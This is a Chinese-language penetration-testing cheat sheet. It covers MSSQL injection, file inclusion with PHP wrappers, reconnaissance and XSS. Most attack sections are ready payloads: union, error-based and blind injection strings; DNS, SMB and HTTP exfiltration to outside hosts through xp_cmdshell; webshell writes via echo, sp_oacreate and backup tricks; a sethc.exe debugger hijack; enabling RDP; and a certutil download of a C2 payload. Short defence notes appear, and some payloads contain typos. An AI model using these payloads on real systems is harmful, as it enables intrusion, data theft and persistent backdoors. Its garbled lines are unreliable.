- 反引号绕过空格和正则,特殊情况可以作为注释符使用
- `-+`连接字符串
- `括号`-->?id=(1)
- `花括号`-->?id=-1'union select 1,{x 2},3 --+
- `等号`-->`table_schema=database()`替换为`table_schema like database()`
- `and,or`替换
- `逗号`使用join替换-->?id=-1'union select * from (select 1)a join (select 2)b join (select 3)c --+

### Mssql注入(1433)

#### 攻击手法

- 1.sql注入查询登录用户的`hash`
- 2.`扩展存储过程`的`xp_cmdshell`执行命令 ,`xp_regwrite`写注册表
- 3.`系统存储过程`的`sp_oacreate`和`sp_oamethod`执行命令,`sp_addextendproc`恢复组件
- 4.`CLR组件`执行系统命令
- 5.`差异备份`写webshell
- 6.`日志备份`写webshell

##### 判断服务器权限

```sql
and 1=(select is_srvrolemember('sysadmin'))
```

#### 联合查询注入

```sql
#获取数据库版本信息
?id=-1'union select top 1 1,2,@version --+
#查询当前数据库名
?id=-1'union select top 1 1,2,db_name() --+
#获取所有数据库名
?id=-1'union select top 1 1,2,name from master.sys.databases where name not in(select top 1 name from master.sys.databases)--+
```

```sql
#获取当前数据库名
?id=0'union select top 1 1,2,db_name() --+
?id=0'union select top 1 1,2,name from master.sys.databases --+

#获取其它数据库名
?id=0'union select top 1 1,2,name from master.sys.databases where name not in (select top m name from master.sys.databases) --+

#获取当前表名
?id=0'union select top 1 1,2,table_name from information_schema.tables --+

#获取所有表名
?id=0'union select top 1 1,2,table_name from information1_schema.tables where table_name not in (select top m table_name from information_schema.tables)--+

#获取当前列名
?id=0'union select top 1 1,2,column_name from information_schema.columns --+

#获取所有列名
?id=0'union select top 1 1,2,column_name from information_schema.columns where table_name="users" and column_name not in (select top m column_name from information_columns where table_name="users")--+

#获取当前数据
?id=0'union select top 1 1,username,password from users --+

#获取所有数据
?id=0'union select top 1 1,username,password from users where username not in (select top m username from users) and password not in (select top m password from users) --+
```

****

#### 报错注入

```sql
#获取当前数据库名
?id=1 and db_name()>0 --+
?id=1 and db_name()=1 --+

#判断当前服务器角色是否有高权限
?id=1 and 1=(select is_srvrolemember('sysadmin')) --+

#判断当前数据库角色是否为DB_OWNER权限
?id=1 and 1=(select is_member('db_owner')) --+ 

#获取当前用户名字
?id=1 and (select name from master.sys.dbo.databases where database_id=1)>0 --+

#获取所有数据库名
?id=1 and (select name from master.sys.dbo.databases where database_id=1)>0 --+

#获取数据库个数
?id=1 and 1=(select quotename(count(name) from master.sys.dbo.databases)) --+

#一次性获取所有数据库
?id=1 and 1=(select quotenam(name) from master.sys.dbo.databases FOR XML PATH('')) --+

#获取第一个表名
?id=1 and 1=(select top 1 table_name from information_schema.tables) --+

#获取其它表名
?id=1 and 1=(select top 1 table_name from information_schema.tables where table_name not in(select top m table_name from information_schema)) --+

?id=1 and 1=(select quotename(table_name) from information_schema.tables FOR XML PATH('')) --+

#获取当前字段名
?id=1 and 1=(select top 1 column_name from information_schema.columns where table_name="users") --+

#获取所有字段名
?id=1 and 1=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in('id','username','password'))--+

?id=1 and 1=(select quotename(column_name) from information_schema.columns where table_name='users' FOR XML PATH('')) --+

#获取数据
?id=1 and 1=(select quotename(username),quotename(password) from users FOR XML PATH('')) --+

?id=1 and 1=(select password from users where id=1) --+

#其它函数注入
?id=1 and 1=(select cast(name as int) from sys.databases where database_id=1)--+

?id=1 and 1=(select convert(int,name) from sys.databases where database_id=1) --+
```

****

#### 布尔盲注

```sql
#获取数据库名 --> n表示第几个字符,m表示ascii
?id=1 and (ascii(substring((select top 1 name from sys.sysdatabases),n,1),1,1)=m) --+
```

****

#### 时间盲注(waitfor delay 0:0:5)

```sql
# n表示第几个字符,m表示ascii
?id=1 if(ascii(substring((select top 1 name from sys.sysdatabases),n,1))=m) waitfor delay 0:0:5 --+
```

****

#### 数据外带

> `dnslog.cn` `ceye.io`

- 原理:
  - 利用`xp_cmdshell`扩展存储过程指定ping dnslog平台命令带出数据
  - 利用`xp_cmdshell,xp_dirtree,xp_fileexist`使用unc路径判断文件发起请求带出数据
- `DNS数据外带`

```sql
declare @a varchar(8000);
set @a=db_name(); #将sql语句绑定到变量上
exec('master..xp_cmdshell "ping.exe '+@a+'.Laffrex.exys.sh -n 1"') --+
 or 
exec('master..xp_cmdshell "ping.exe '%2b@a%2b'.Laffrex.eyes.sh -n 1"')--+
```

- 方式

  - 存在`堆叠注入`数据外带

  - mysql堆叠注入函数`mysqli_multi_query()`

  - mmsql外带利用`扩展存储过程`

    - ```sql
      #xp_cmdshell执行系统命令
      ?id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "ping.exe '%2b@a%2b'.Laffrex.eyes.sh -n 1"') --+
      ```

    - ```sql
      #xp_subdirs查看路径下的目录
      ?id=1';declare @a varchar(8000);set@a=db_name();exec('master..xp_subdirs "//''%2b@a%b''.Laffrex.eyes.sh\a"') --+
      ```

    - ```sql
      #xp_dirtree查询路径下的所有文件和目录
      ?id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_dirtree "//''%2b@a%b''.Laffrex.eyes.sh\\a"') --+
      ```

    - ```sql
      #xp_fileexist判断路径是否存在
      ?id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_fileexist "//''%2b@a%2b''.Laffrex.exys.sh\\a"') --+
      ```

- `HTTP数据外带`

```sql
#存在堆叠注入的数据外带
?id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "powershell IEX(newobject net.webclient).downloading(''http://192.168.1.1:9000?data='%2b@a%2b''')"') --+
```

- `SMB数据外带`

```sql
#存在堆叠注入的数据外带
?id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs"//''%2b''192.168.1.1\\''%2b@a%2b''.txt"'')--+

#执行命令查看
tail -f /var/log/samba/log.smbd | grep "failed"
```

```sql
#不存在堆叠注入的数据外带
?id=1'and exits(select*from fn_xe_file_target_read_file('C:*.xls','\\'+(select user)+'Laffrex.eyes.sh\1.txt',null,null)) --+
```

****

#### MSSql扩展存储过程

- 存储过程是为了完成特定功能的`sql语句`集合,经编译后存储于数据库中,用户通过指定存储过程的名称并给出参数来执行.存储过程中可以包含逻辑控制语句和数据操纵语句,它可以接受参数,输出参数,返回单个或多个结果集以及返回值
- 由于存储过程在创建时即在数据库服务器上进行了编译并存储在数据库中,所以存储过程运行要比单个sql语句块要快,同时由于在调用时只需用提供存储过程名和必要的参数信息,所以在一定程度上也可以减少网络流量,减轻网络负担
- 存储过程分为:`系统存储`,`本地存储`,`扩展存储`,`远程存储`,`临时存储`过程

------

#### 系统存储过程

- 以`sp_`开头,进行系统的设定,如:`sp_oacreate`,`sp_oamethod`

- 利用`条件`

  - 1.已获得`sqlserver sysadmin权限`的用户,且账号与密码未降权

  - 2.sqlserver允许`远程连接`

  - `OLE Automation Procedures`选项开启

    `sp_oacreate`是创建OLE对象的实例

    `sp_oamethod`是调用一个OLE对象的方法

    组合`sp_oacreate`,`sp_oamethod`可执行命令无回显

  ```sql
  #启用sp_oacreate
  EXEC sp_configure 'show advanced options',1;
  RECONFIGURE WITH OVERRIDE;
  EXEC sp_configure 'Ole Automation Procedures',1;
  RECONFIGURE WITH OVERRIDE;
  c:/IISRootTest
  #利用mssql定义变量shell调用wscript.shell利用cmd.exe /c 执行命令并写入文件
  declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:/windows/system32/cmd.exe /c whoami > c://1.txt'
  
  #写一句话木马webshell
  declare @o int,@f int,@t int,@ret int
  exec sp_oacreate 'scripting.filesystemobject',@o out
  exec sp_oamethod @o,'createtextfile',@f out,'c:/IISRootTest/shell.asp',1
  exec @ret=sp_oamethod @f,'writeline',NULL,'<%execute(request("cmd"))%>'
  
  #组合sp_oacreate和sp_oamethod利用com组件执行命令
  declare @luan int,@exec int,@text int,@str varchar(8000);
  exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output;
  exec sp_oamethod @luan,'exec',@exec output,'C:/windows/system32/cmd.exe /c whoami';
  exec sp_oamethod @exec,'StdOut',@text out;exec sp_oamethod @text,'readall',@str out;
  select @str;
  
  #SharpSQLTools工具利用sp_oacreate执行命令
  SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_ole
  SharpSQLTools.exe 192.168.1.1 tomato tomato master sp_oacreate whoami
  ```

------

#### 本地存储过程

- 本地存储过程指用户创建的自定义存储过程.如:`CLR`

- `CLR`:公共语言基础结构(Common Language Infrastructure),用来支持不同的编程语言.sql server集成了该组件,可以通过sql server执行编写CLR执行系统命令

- SharpSQLTools实现上传下载文件,`xp_cmdshell`与`sp_oacreate`双回显和clr加载程序执行响应的操作

- ```sql
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master install_clr
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_clr
  #SharpSQLTools.exe 192.168.1.1 tomato tomato master clr_efspotato whoami
  ```

  ##### xp_cmdshell`利用`

  - 当前用户拥有`DBA权限`
  - 依赖于`xplog70.dll`
  - 存储过程`存在`并`已启用`

- xp_cmdshell存储过程可以执行系统命令,默认支持输出执行结果

- 从`MSSQL_2005`版本之后默认处于禁用状态,可以使用`sp_configure`来启用或者禁用`xp_cmdshell`

```sql
#xp_cmdshell利用

#判断当前是否为DBA权限,返回1即为sysadmin
select IS_SRVROLEMEMBER('sysadmin');
#查看是否存在xp_cmdshell,返回1则存在
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshellhell'
#开启xp_cmdshell
EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;
#关闭xp_cmdshell
EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',0;RECONFIGURE;


#SQL注入+xp_cmdshell利用

#查看是否禁用xp_cmdshell
id=0'union select 1,2,count(*) from master..sysobjects where xtype='X' and name='xp_cmdshell' --+ 
id=1'and 1=(select count(*) from master.sys.sysobjects where name='xp_cmdshell') --+

#开启xp_cmdshell
id=0';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE; --+

#执行命令
id=1';exec master.sys.xp_cmdshell 'ping -n 1 d3rymk.dnslog.cn' --+
```


------

#### 扩展存储过程

- 扩展存储过程以`xp`开头,主要使用外部程序语言编写的存储过程

- 如:`xp_cmdshell`直接利用其执行命令,`xp_subdirs`读取文件夹内容

- `sql server 2005` 后的版本默认关闭,需要开启后使用

- ```sql
  #开启xp_cmdshell
  EXEC sp_configure 'show advanced options',1;
  RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell',1;
  RECONFIGURE;
  
  #执行系统命令
  exec master..xp_cmdshell 'whoami'
  #查询web根目录路径
  exec master..xp_cmdshell 'where /r c:/ *.asp'
  #利用xp_cmdshell写webshell-->`^`为转义符
  exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:/inetpub/wwwroot/shell.asp' -->找web绝对路径可利用where命令和其它扩展存储过程组合利用
  
  #利用xp_cmdshell开启3389
  http://192.168.1.1/Less-1.asp?id=1'exec xp_cmdshell 'REG ADD HKLM/SYSTEM/CurrentControlSet/Control/Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f' --+
  
  #执行命令写入web根目录或者反弹shell
  http://192.168.1.1/Less-1.asp?id=1';exec xp_cmdshell 'systeminfo > c:/inetpub/wwwroot/systeminfo.txt' --+
  
  #执行命令写入webshell
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:/inetpub/wwwroot/shell.asp'
  ----------------------------------->xp_cmdshell执行powershell命令上线CS<----------------------------------------------
  
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'certutil.exe -f -split -urlcache http://192.168.172.129:9090/payload64.txt c://inetpub//wwwroot//payload1.bat' --+
  
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'c://inetpub//wwwroot//payload1.bat' --
  --------------------------------------------------------------------------------------------------------------------
  
  #SharpSQL Tools.exe 利用 xp_cmdshell
  SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_xp_cmdshell
  SharpSQLTools.exe 192.168.1.1 tomato tomato master xp_cmdshell whoami
  
  #删除xp_cmdshell存储过程
  exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll' declare @o int;
  sp_addextendedproc 'xp_cmdshell','xpsql70.dll';  --> 若彻底删除C盘删
  
  #查询指定文件夹的文件列表
  exec master..xp_subdirs 'c:/';
  
  #显示当前目录的子目录xp_dirtree
  - directory :第一个参数是要查询的目录
  - depth :第二个参数是显示子目录深度,默认是0,显示所有子目录
  - file :第三个参数是bool类型,指定是否显示子目录中的文件,默认是0,表示不显示任何文件,只显示子目录
  
  exec master..xp_dirtree 'c:/';		//显示c盘所有文件和目录
  exec master..xp_dirtree 'c:/',1';	//显示c盘所有目录
  exec master..xp_dirtree 'c:/',1,1;	//显示指定目录下的目录和文件
  
  #xp_create_subdir创建子目录
  exec master..xp_create_subdir 'c:/test';
  
  #xp_fileexist判断文件是否存在
  exec master..xp_fileexist 'c:/windows/win.ini';
  
  #使用xp_regwrite存储过程对注册表近蜥形修改,替换成任意值,造成镜像劫持
  -前提条件
  - 1.未禁止注册表编辑
  - 2.xp_regwrite启用
  #查看xp_regwrite是否启用
  select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_regwrite';
  
  #开启xp_regwrite
  exec sp_configure 'show advanced options',1 RECONFIGURE
  exec sp_configure 'xp_regwrite',1 RECONFIGURE
  
  #利用regwrite修改注册表进行劫持
  exec master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE/Microsoft/WindowsNT/CurrentVersion/Image File Executio Options/sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:/windows/system32/cmd.exe'
  
  #利用regwrite开启3389端口
  exec master.dbo.xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM/CurrentControlSet/Control/Terminal Server','fDenyTSConnections','REG_DWORD',0;
  exec master..xp_cmdshell "REG ADD 'HKEY_LOCAL_MACHINE','SYSTEM/CurrentControlSet/Control/Terminal Server' /v fDenyTSConnections /t REG_DWORD /d 0"
  
  #利用xp_regread对注册表进行读取
  -读取注册查看是否修改成功
  exec master..xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE/Microsoft/WindowsNT/CurrentVersion/Image File Execution Options/sethc.exe','Debugger'
  
  #通过扩展存储过程拿shell
  - 前提
  - 数据库是db_owner权限
  - 涉及到的存储扩展过程:xp_cmdshell,xp_dirtree,xp_subdirs,xp_regread,xp_ntsec_enumdomains(查看domain信息)
  ```

------

#### 小结

- 条件:已知`web路径`,`sa或dba权限`

- 利用本地存储过程写shell

- xp_cmdshell

- ```sql
  exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:/inetpub/wwwroot/shell.asp';
  ```

- sp_oacreate

- ```sql
  declare @o int,@f int,@t int,@ret int
  exec sp_oacreate 'scripting.filesystemobject',@o out
  exec sp_oamethod @o,'createtextfile',@f out,'c:/inetpub/wwwroot/shell.asp',1
  exec @ret=sp_oamethod @f,'writeline',NULL,'<%execute(request("cmd"))%>'
  ```

- 本地存储过程CLR:直接利用sharpsqltools执行命令写shell进行利用

- `log备份`写shell

- ```sql
  #优点
  - 重复性好,多次备份成功率高
  - 相对于差异备份而言,shell的体积较小
  
  #利用条件
  - DBO权限,默认SA也可
  - 知道绝对路径,并且可写
  - 站库不分离,数据库跟网站在同一台服务器
  - 数据库必须被备份过一次
  
  use test;	//选中数据库
  alter database test set recovery full;	//设置恢复模式
  if exists(select table_name from information_schema.tables where table_name='test_tmp') drop table test_tmp;
  create table test_tmp (a image);	//新建临时表
  backup log test to disk = 'C://inetpub//wwwroot//asp.bak' with init;	//备份日志到指定路径
  insert into test_tmp (a) values (0x3C25657865637574652872657175657374282261222929253EDA);
  backup log test to disk = 'C://inetpub//wwwroot//123.asp'; -->连接`蚁剑`密码为a
  ```

- `差异备份`写shell

- ```sql
  #差异备份条件
  - dbo权限
  - 知道绝对路径,可写
  - http 500 错误不是自定义
  - web和数据库在一块.还有的就是数据库不能存在%号特殊字符
  - 数据量不能太大
  - Tips: 差异备份写shell容错率相对较差,通常利用存储过程日志备份写shell更为快捷键
  
  use test;	//选中库
  backup database test to disk = 'c://inetpub//wwwroot//mssql1.bak';	//手动备份一次
  create table test..test1(a image);	//新建临时表
  insert into test..test(a) values (0x3C25657865637574652872657175657374282261222929253EDA);	//插入一句话木马到表中,注意16进制
  backup database test to disk = 'c://inetpub//wwwroot//shell.asp' with differential.format;	//进行差异化备份
  drop table test..test1;	//备份完getshell后删除表
  ```

  ****

### 文件包含

#### 常见的文件包含函数

> `include`,`include_once`,`require`,`require_once`,`hight_file`,`show_source`,`readfile`,`file_get_contents`,`fopen`,`file`

- 概念:程序开发人员通常会把`可重复使用的函数`写到单个文件中,在使用某个函数的时候,`直接调用此文件`,无需再次编写
- 原因:为了代码更灵活,通常会把`被包含的文件设置为变量`,进行`动态调用`,从而导致客户端可以`调用任意文件`,造成文件包含漏洞.动态包含的`文件路径参数`,客户端可控

- include() -->找不到被包含的文件时之产生`警告`,脚本将`继续执行`
- include_once() -->和include类似,唯一区别是如果该文件中的代码`已经被包含`,则不会被`再次包含`
- require() -->找不到被包含的文件时会产生`致命的错误`,并`停止脚本`
- require_once() -->和require类似,唯一区别是如果文件被包含则不会被再次包含
- `require`和`include`的区别:使用`require`时,只要`程序执行`则`立即调用文件`.而`include`只有`程序执行`到`该函数`才会被调用
- 其它用于包含的函数:`highlight_file()`,`show_source()`,`readfile()`,`file_get_contents()`,`fopen()`,`file()`

```php
//经典代码,对$_GET['filename']参数没有经过严格的过滤,直接带入了include()函数,攻击者可以修改$_GET['filename']的值,加载其它文件,执行非预期的操作
<?php
$filename=$_GET['filename'];
include($filename)
?>

//图片马制作
copy /b 1.jpg + shell.php image_with_payload.jpg
```

------

#### 分类

- 主要包括`本地文件包含(LFI)`和`远程文件包含(RFI)`

- 简单来说,本地文件包含可以`读取`和`打开本地文件`,远程文件包含(http,ftp,php伪协议)就是可以`远程加载文件`

- `包含条件`:allow_url_fopen=On(php.ini中进行配置,该选项默认为on)->`本地文件包含不受影响`&&用户可以`动态控制变量`

- ```php
  //无限制本地文件包含漏洞经典代码
  <?php
  $filename=$_GET['filename'];
  include($filename);
  ?>
  ```

------

#### 本地文件包含(LFI)

- `绝对路径`读取本地host文件-->`?action=C:/Windows/System32/drivers/etc/hosts`

- `相对路径`读取本地host文件-->`?action=..//..//..///..//..//..//..//..//windows/system32/drivers/etc/hosts`

- 包含图片木马:`?action=./test.jpg`

- `有限制`本地文件包含漏洞`绕过`

- ```php
  <?php
  $filename=$_GET['filename'];
  include($filename.".php");
  ?>
      
  //绕过方法
   1.%00截断
      - 条件:magic_quotes_gpc=Off php版本<5.3.4
      - 获取phpinfo.php文件-->  ?action=phpinfo.php%00
          
   2.路径长度截断
      - 条件:windows下长于198字符,超出部分会被丢弃
      - ?action=phpinfo.php/./././././././././././././././././././././././././././././././././././././
          
   3.点号截断
      - 条件:windows系统,点号需要长于197
      - ?action=phpinfo.php.............................................................................
          
  ```

------

#### 远程文件包含(RFI)

- 指的是能够包含远程服务器上的文件并执行,可以通过http(s)或者ftp等方式,远程加载文件

- 危害:由于远程服务器的文件是我们可控的,因此漏洞一旦存在漏洞危害性很大

- 包含`条件`:

  - allow_url_include=On (默认为OFF,需要在php.ini中手动打开)
  - allow_url_fopen=On  (是否允许打开远程文件)
  - 用户可以`动态控制变量`

  ```php
  //举例
  //通过http协议加载目标机中的info.php文件
  [url]?path=http://ip/info.php	
  
  //通过ftp协议加载目标机中的info.php文件
  [url]?path=ftp://用户名:密码@ip/info.php	
  
  //绕过
  1.问号绕过
      - ?action=http://192.168.1.1/phpinfo.php?
  2.#号绕过
      - ?action=http://192.168.1.1/phpinfo.php%23
  3.空格绕过
      - ?action=http://192.168.1.1/phpinfo.php%20
  ```

------

#### 漏洞利用

- 端口探测:url=dict://ip:`80`

- 包含上传的getshell-->上传图片马

- 包含日志文件getshell-->为了避免在web中进行url编码,进行抓包修改,或者`构造报错信息写错误日志`

- 远程包含文件写shell

- ```php
  //在文件夹下会看到生成shell.php,内容为<?php eval($_POST[1]);?>,当直接包含图片时,代码就会被执行
  <?php
  fputs(fopen('shell.php','w'),'<?php eval($_POST[1]);?>');
  ?>
  ```

- 使用`php伪协议`getshell

------

#### php伪协议

- php伪协议就是`支持的协议`与`封装协议`

- | file:// |  访问本地文件系统   |
  | :-----: | :-----------------: |
  | http:// |   访问http(s)网址   |
  | ftp://  |   访问ftp(s),URLS   |
  | php://  | 访问各个输入/输出流 |
  | zlib:// |       压缩流        |
  | data:// |    数据(RFC2397)    |
  | rar://  |         RAR         |

- `file://协议`

  - 1.用途:访问本地系统文件
  - 2.使用条件:allow_url_fopen:off/on  allow_url_include:off/on	 -->file://在两个配置默认为off可正常使用
  - 3.使用方法:file://文件的绝对路径和文件名
  - 4.举例:[?path=file://c:/windows/system32/drivers/etc/hosts]
  - 

- `php://filter`

  - 1.用途:常用于读取文件/源码
  - 2.使用条件:`allow_url_fopen:off/on`,`allow_url_fopen:off/on`两个均为`off`情况下是可以使用的
  - 3.使用:[?path=php://filter/read=convert.base64-encode/resource=文件.php]
  - 4.注意:通过指定末尾的文件,可以读取base64`加密`后的文件源码,之后再base64`解码`.虽然不能直接获取到shell,但是能读取`敏感信息`
  - php://filter协议和file://协议的区别:`file`协议`只能`使用`绝对路径`,`fileter`协议相对绝对`均可`
  - 

- `php://input`

  - 用途:可以访问请求的原始数据的只读流,将`post请求中的数据作为php代码执行`
  - 使用条件:allow_url_fopen:off/on,allow_url_include:`on`
  - 使用方法:?file=php://input
  - [POST]:<?php phpinfo()?> (执行post data中的内容)

  

- `data://`

  - 用途:执行接收到的数据中包含的php代码
  - 使用条件:allow_url_fopen:`on`,allow_url_include=`on`
  - 使用方法:?file=data:text/plain,<?php phpinfo();?>
  - --------?file=data:text/plain;base64,PD9waHA工程GhwaWmbygpPz4=
  - --------?file=data://text/plain,<?php phpinfo();?>
  - http://192.168.1.1/include.php?file=data://text/plain,<?=phpinfo();?>

  

- `zip://`

  - 用途:读取压缩包内的文件(绝对/相对路径)如果包含php代码直接执行
  - 使用条件:allow_url_fopen:off   allow_url_include:off
  - 使用方法:zip://archive.zip#dir/file.txt
  - --------zip://[压缩文件绝对/相对路径]#[压缩文件内的子文件名]
  - --------?file=zip://D:/www/file.zip%23phpcode.txt
  - --------?file=zip://D:/www/file.jpg%23phpcode.txt
  - http://192.168.1.1/include.php?file=zip://shell.zip%23shell.txt

- `phar://`

  - 用途:读取压缩文件内的文件(相对/绝对路径)
  - 使用条件:allow_url_fopen:off     allow_url_include:off
  - 使用方法:?file=phar://D:/phpstudy/www/fileinclude/test.zip/phpinfo.txt
  - --------?file=phar://test.zip/phpinfo.txt
  - http://192.168.1.1/include.php?file=phar://shell.zip/shell.txt

  

- `compress.bzip2://`

  - 用途:读取压缩包内的文件(相对/绝对路径)	
  - 使用条件:allow_url_fopen:off    allow_url_include:off
  - 使用方法:?file=compress.bzip2://shell.txt.bz2
  - Bzip2 -k shell.txt
  - http://192.168.1.1/include.php?file=compress.bzip2://shell.txt.bz2

- `compress.zlip://`

  - 用途:读取压缩包内的文件(相对/绝对)
  - 使用条件:allow_url_fopen:off    allow_url_include:off
  - 使用方法:?file=compress.zlib://shell.zip#shell.txt
  - http://192.168.1.1/include.php?file=compress.zlib://shell.zip#shell.txt

- 其它

- 

------

#### 文件包含漏洞防御

- 1.严格判断包含中的参数是否外部可控
- 2.路径限制
- 3.包含文件验证
- 4.尽量不要使用`动态包含`,可以在需要包含的页面固定写好
- 5.php中可以使用`open_basedir`配置限制访问
- 6.过滤`.`,`/`,`/`等
- 7.禁止服务器远程文件包含

------

#### 本地文件包含演示

```php
//示例代码include.php
<?
$cover=$_GET['action'];
includ $cover;
?>
```


- 在同级目录`test`下创建`1.txt`,然后txt里写`html`
- http://192.168.69.195/file/include.php?action=../test/1.txt

- 执行效果展示


- 发现`html`代码部分是可以被成功解析运行出来的-->`include`是会执行代码的
- 使用文件包含读取系统文件:`http://192.168.69.195/file/include.php?action=C:/Windows/System32/drivers/etc/hosts`


****

### 信息收集

#### Google Hacking

```sql
# site-->找到与指定url有联系的url
site:baidu.com

# inurl/allinurl-->返回url中含有关键词的网页
inurl:login|index
allinurl:login admin

# intext/allintext-->寻找正文中含有关键字的网页
allintext:后台 登录 公司

# intitle/allintitle-->寻找标题中含有关键字的网页
allintitle:中国 后台 登录

# filetype-->指定文件访问类型
filetype:doc|pdf|xlsx
```

****

#### ICP`备案信息收集`

- 爱站:https://icp.aizhan.com/
- 站长之家:https://icp.chinaz.com/
- ICP备案查询网:https://www.beianx.cn/search/
- 工信部ICP备案查询:https://beian.miit.gov.cn/

****

#### 备案`反查`域名信息

- 网站向有关部门申请的备案信息(单位名,备案编号,网站负责人,电子邮箱,联系电话,法人...)
- 工信部ICP备案查询:https://beian.miit.gov.cn/
- ICP备案查询网:https://www.beianx.cn/search/

****

#### `Whois`信息收集

- whois可以获取关键注册人信息,包括注册公司,注册邮箱,管理员邮箱,管理员联系手机.
- 国外who.is:http://who.is/
- 站长之家:http://whois.chinaz.com/
- 爱站:https://icp.aizhan.com/
- 微步:https://x.threatbook.cn/
- IP138网站:https://site.ip138.com/
- 腾讯云:https://whois.cloud.tencent.com/
- 狗狗查询:https:www.ggcx.com/main/integrated/

****

#### `ip反查域名`

- 目标可能存在多个域名绑定同一ip上,通过ip反查,可以获取到其他域名信息,比如旁站
- 站长工具:https://stool.chinaz.com/same
- dnslytics:https://dnslytics.com/
- ip138:https://site.ip138.com/
- `Fofa`:ip="11.11.11.11"  https://fofa.info
- `奇安信鹰图`:ip="11.11.11.11" https://hunter.qianxin.com/
- Shodan.io "11.11.11.11"  https://www.shodan.io/

****

#### 子域名收集

- 搜索引擎
- 查子域:https://chaziyu.com/
- 尾部社区:https://x.threatbook.com/
- VT:https://www.virustotal.com/gui/home/search
- RapidDNS:https://rapiddns.io/subdomain
- Layer子域名挖掘机
- SubDomainsBrute
- Oneforall
- subfinder+kssubdomain+httpsx
- JsFinder
- URLFinder

****

#### 端口探测

- Nmap,Zenmap,masscan
- -sP/-sn 使用ping扫描,查看主机存活,不进行端口扫描
- -P 指定端口
- -O 显示操作系统版本

****

#### CMS指纹识别

- 通过指定特殊目录或者特殊文件
- 页面底部版权信息,关键字
- html注释掉的代码内容
- robots.txt文件中的关键字
- wappalyzer插件
- whatweb工具
- 潮汐指纹:http://finger.tidesec.net
- CMS识别工具:http://whatweb.bugscaner.com/look
- 云悉:http://www.yunsee.cn
- GODeye.vip

****

#### 判断是否存在CDN

- 多地ping
- 爱站
- 站长之家

****

#### 网络空间测绘搜索引擎

- https://fofa.info
- https://search.ccenysy.io
- https://quake.360.net
- https://hunter.qianxin.com
- https://www.shodan.io

****

#### FOFA语法

```sql
#搜索根域名为"ichunqiu.com"的网站
domain="ichunqiu.com"
#从url中搜索
host="ichunqiu.com"
#从https证书中搜索
cert="ichunqiu.com"
#利用证书序列号定位
cert="https证书序列号值10进制"
#利用备案号定位
icp="京ICP证151782号"
#利用网站标题特征定位
title="xxxx教育"
#利用网站icon图片定位
icon_hash="-837482394"
#利用html正文特征定位
body="XXXX教育"
#利用fofa指纹网站定位
fid=""
```

****

### XSS(跨站脚本攻击)

- XSS漏洞产生`条件`:
  - 1.可以控制的输入点
  - 2.`输入`能返回到前端页面上`被浏览器当成脚本语言解释执行`
- XSS漏洞的`危害`:
  - 窃取用户Cookie,冒充用户身份进入网站
  - 键盘记录
  - 客户端信息探查
  - XSS组合其它漏洞getshell
  - 劫持用户会话,执行任意操作
  - 刷流量,执行弹窗广告
  - 传播蠕虫病毒
- XSS漏洞的`防御`:
  - a:使用`XSS Filter`-->过滤用户提交的有害信息,从而达到防范XSS攻击的效果
  - b:输入过滤 --> 对用户输入进行过滤(后端)
  - c:输入验证 --> 对用户提交的信息进行`有效验证`(是否仅包含合法字符,字符长度限制,输入是否符合特殊的格式要求)
  - d:输出编码 --> HTML编码主要使用对应的`HTML 实体代替字符`
- `检测`XSS的方法:
  - 手工检测
    - 使用手工检测时需要考虑`哪里有输入,输入的数据在什么地方输出`
    - 可得知输出位置:输入一些`敏感字符`,例如`<`,`>`,`"`,`'`,`()`等,请求后查看html源码,看这些输入的字符`是否被转义`
    - 无法得知输出位置时:可能需要管理员审核,无法得知输入的数据在后台管理界面处于什么状态
  - 全自动检测XSS
    - `APPSCAN`,`AWVS`,`Burp`等软件
    - 专业的XSS扫描工具:`XSStrike`
- `工具与手动相结合`

****

#### XSS漏洞的分类

| 类型      | 存储区                  | 插入点          |
| --------- | ----------------------- | --------------- |
| 反射型XSS | URL                     | HTML            |
| 存储型XSS | 后端数据库              | HTML            |
| DOM型XSS  | 后端数据库/前端存储/URL | 前端 JavaScript |

- `反射型XSS`

  - 概念:是`非持久性`,参数型的跨站脚本,反射型XSS的Js代码在`web应用的参数`(变量)中,如`搜索框`的反射型XSS

  - 存在位置:常见于通过`URL传递参数`的功能,如网站搜素,跳转等

  - 攻击手法:需要欺骗用户自己去点击`链接`才能触发XSS代码(服务器中没有这样的页面和内容),一般容易出现在搜索页面

    - 验证反射性xss漏洞是否存在
    - `<script>alert(/xss/)</script>`(常用)
    - `<script>confirm('xss')</script>`
    - `<script>prompt('xss')</script>`

    ****

- `存储型XSS`

  - 概念:`持久性`跨站脚本,是三种XSS中`危害最大`的,它是将恶意代码写进`数据库`或`文件`等可以`永久保存数据的介质中`

